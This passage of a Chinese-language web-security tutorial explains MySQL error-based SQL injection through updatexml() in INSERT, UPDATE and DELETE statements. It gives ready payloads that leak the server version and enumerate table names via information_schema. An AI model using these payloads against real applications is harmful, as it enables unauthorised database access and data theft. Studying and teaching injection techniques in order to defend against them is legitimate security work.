 * * *

updatexml()函数是MYSQL对XML文档数据进行查询和修改的XPATH函数。

payload：

```
or updatexml(1,concat(0x7e,(version())),0) or

```

Insert：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or'', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/c0edc5332c85c0d3fd91843302954bd3d22982df.jpg)

Update：

```
UPDATE users SET password='Nicky' or updatexml(2,concat(0x7e,(version())),0) or''WHERE id=2 and username='Olivia';

```

![enter image description here](http://drops.javaweb.org/uploads/images/f5e512205ac642654f22d223ae27333693b74e44.jpg)

Delete：

```
DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or'';

```

![enter image description here](http://drops.javaweb.org/uploads/images/b05ae00817f561a9315981c39b51d93a336d649b.jpg)

提取数据：

由于篇幅有限，在insert、update、delete用法一致的时候，我会仅以insert为例说明。

所用的payload为：

```
or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or

```

获取newdb数据库表名：

![enter image description here](http://drops.javaweb.org/uploads/images/b614fe6cb1868df9b6dd8a603b90a0837111e6ac.jpg)

获取users表的列名：

![enter image description here](http://drops.javaweb.org/uploads/images/7662554cd3328bc6761a4d4a84f9aeaca824d664.jpg)
